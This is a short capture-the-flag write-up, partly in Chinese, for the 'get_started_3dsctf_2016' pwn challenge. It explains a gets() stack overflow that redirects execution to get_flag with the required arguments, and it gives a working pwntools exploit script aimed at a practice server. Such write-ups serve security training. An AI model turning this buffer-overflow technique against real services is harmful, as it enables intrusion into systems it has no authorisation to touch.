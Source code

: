 # get_started_3dsctf_2016

## Information

- Category: Pwn
- Points: 1

## Write-up

main 中 `gets` BOF，覆盖返回地址为 `get_flag` 即可。但是这个函数会检测传入的两个参数，我们需要把参数设置好。

本地打通了，打远程的时候遇到 `timeout: the monitored command dumped core`，有几种说法是：栈没对齐；程序没正常退出。这里我们给 `get_flag` 设置返回到 `exit` 就行。

## Exploit

```python
#!/usr/bin/env python3

from pwn import args, context, flat, p32, process, raw_input, remote

FILE = "./get_started_3dsctf_2016"
HOST, PORT = "node5.buuoj.cn", 25782

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)
    return target


def main():
    target = launch()

    payload = flat(
        b"A" * 0x38,
        elf.sym["get_flag"],
        p32(0x0804E6A0),
        p32(814536271),
        p32(425138641),
    )

    # raw_input()
    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```
